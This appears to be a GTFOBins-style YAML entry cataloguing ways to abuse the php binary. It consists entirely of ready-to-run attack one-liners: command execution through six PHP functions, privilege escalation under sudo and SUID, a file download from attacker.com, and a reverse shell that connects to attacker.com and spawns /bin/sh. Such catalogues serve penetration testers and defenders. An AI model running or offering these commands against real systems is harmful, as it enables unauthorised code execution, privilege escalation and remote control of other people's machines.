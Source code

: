 ```yaml
---
functions:
  exec-non-interactive:
    - code: |
        export CMD="ls /"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="ls /"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="ls /"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="ls /"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
    - code: |
        export CMD="ls /"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
    - code: |
        export CMD="ls /"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="id"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="id"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |-
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

